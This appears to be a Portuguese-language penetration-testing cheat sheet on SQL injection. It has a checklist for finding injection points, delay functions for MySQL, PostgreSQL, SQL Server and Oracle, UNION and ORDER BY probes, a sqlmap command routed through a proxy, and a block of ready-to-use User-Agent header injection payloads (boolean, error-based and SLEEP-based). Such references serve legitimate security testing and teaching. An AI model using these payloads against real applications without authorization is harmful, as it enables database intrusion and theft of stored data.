 # SQL Injection

:hamburger: SQL Injection é quando um atacante manipula consultas de bancos de dados através de um "ponto de entrada" na aplicação.

:fries:Checklist

- Qual é a base de dados usada?
- Identifique "pontos de entrada"
    - Parâmetros na URL
    - Campos de formulário
    - Cabeçalho HTTP (ex.: cookies)
    - Out-of-band (dados retornados de fontes de dados externas)
- Comece testando os códigos mais conhecidos, como por exemplo 'and 1=1-- -
- Observe atentamente mensagens de erro
- Respostas condicionais quando usado "true" or "false"
- Teste se a aplicação é vulnerável a "blind SQLi"
- Respostas com "delay"
- Observe se existem filtros ou bloqueios
    - Use encode
    - Use duplo-encode
    - Use caracteres alternativos
    - Use payloads alternativos
- Teste a injeção usando aspas simples e aspas duplas
- Teste diferentes códigos de comentário para finalizar o payload, como por exemplo -- -
- Teste condições "booleanas" como and 1=1 e and 1=2, observe o tamanho do Content-Length ao fazer essa manipulação
- Teste diferentes códigos para disparar "delay" na resposta
    - MySQL ```sleep(5)```
    - PostgreSQL ```pg_sleep(5)```
    - MS SQL Server ```WAITFOR DELAY '0:0:05'```
    - Oracle ```dbms_pipe.receive_message(('x'),5)```
- Teste códigos com UNION
- Teste o número de colunas usando ```null, ORDER BY 1, ORDER BY 2```
- Teste o tipo de dado ```'a',1```

### SQLMap através de proxy
```
sqlmap -u "[URL]" -p [parametro] --proxy="[URL]:[PORT]" 
```
### SQL Injection User-Agent Payload
```
' UNION SELECT user(); -- -

Mozilla/5.0 (X11; U; Linux i686; pl-PL; rv:1.9.0.1) Gecko/2008071222 Firefox/3.0.1' RLIKE (SELECT (CASE WHEN (6091=6091) THEN 0x4d6f7a696c6c612f352e3020285831313b20553b204c696e757820693638363b20706c2d504c3b2072763a312e392e302e3129204765636b6f2f323030383037313232322046697265666f782f332e302e31 ELSE 0x28 END))-- Siej

Mozilla/5.0 (X11; U; Linux i686; pl-PL; rv:1.9.0.1) Gecko/2008071222 Firefox/3.0.1' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7171706271,(SELECT (ELT(9324=9324,1))),0x7170626a71,0x78))s), 8446744073709551610, 8446744073709551610)))-- SLLO

Mozilla/5.0 (X11; U; Linux i686; pl-PL; rv:1.9.0.1) Gecko/2008071222 Firefox/3.0.1' AND (SELECT 8189 FROM (SELECT(SLEEP(5)))ZmMz)-- nixn

elsagent' RLIKE (SELECT (CASE WHEN (7125=7125) THEN 0x656c736167656e74 ELSE 0x28 END)) AND 'yxqE'='yxqE

elsagent' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x716b6b7871,(SELECT (ELT(3105=3105,1))),0x71786b7071,0x78))s), 8446744073709551610, 8446744073709551610))) AND 'durz'='durz

```